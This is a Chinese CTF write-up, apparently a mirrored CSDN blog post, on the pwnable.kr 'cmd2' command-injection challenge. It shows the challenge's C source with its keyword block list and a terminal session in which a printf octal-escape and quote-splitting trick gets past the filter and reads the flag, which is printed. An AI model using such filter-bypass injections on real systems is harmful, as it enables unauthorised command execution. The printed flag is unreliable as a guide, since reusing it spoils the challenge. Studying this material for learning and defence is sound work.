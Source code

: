 <!--yml
category: 未分类
date: 2022-04-26 14:31:22
-->

# PWN cmd2 [pwnable.kr]CTF writeup题解系列12_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103799281](https://blog.csdn.net/fastergohome/article/details/103799281)

![](img/b692abf2cd5804b530616923fc2e8069.png)

![](img/5666397b70d8969f3be7ada8ac83b779.png)

涉及到shell命令绕过到知识

```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
} 
```

不能用下面这些单词

    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;

那就绕过呗，大家可以参考

[https://www.runoob.com/linux/linux-shell-printf.html](https://www.runoob.com/linux/linux-shell-printf.html)

操作过程我贴出来

```
root@mypwn:/ctf/work/pwnable.kr# ssh cmd1@pwnable.kr -p2222
cmd1@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 20:20:32 2020 from 120.84.12.64
cmd1@prowl:~$ $(printf \\057bin\\057cat) fl""ag
/bin/cat: flag: Permission denied
cmd1@prowl:~$ printf "%d %s\n" 1 "abc"
1 abc
cmd1@prowl:~$ $(printf "%d %s\n" 1 "abc")
1: command not found
cmd1@prowl:~$ $(printf "%s %s\n" "ls" "abc")
ls: cannot access 'abc': No such file or directory
cmd1@prowl:~$ $(echo \\057bin\\057cat) fl""ag
\057bin\057cat: command not found
cmd1@prowl:~$ cmd2 '$(printf \\057bin\\057cat) fl""ag'
cmd2: command not found
cmd1@prowl:~$ ./cmd2 '$(printf \\057bin\\057cat) fl""ag'
-bash: ./cmd2: No such file or directory
cmd1@prowl:~$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
cmd1@prowl:~$ exit
logout
Connection to pwnable.kr closed.
root@mypwn:/ctf/work/pwnable.kr# ssh cmd2@pwnable.kr -p2222
cmd2@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 20:25:56 2020 from 128.61.240.205
cmd2@prowl:~$ ./cmd2 '$(printf \\057bin\\057cat) fl""ag'
$(printf \\057bin\\057cat) fl""ag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@prowl:~$ 
```

这方面我也是去查了一下资料，具体到各种不同到绕过策略，还是要自己去多尝试。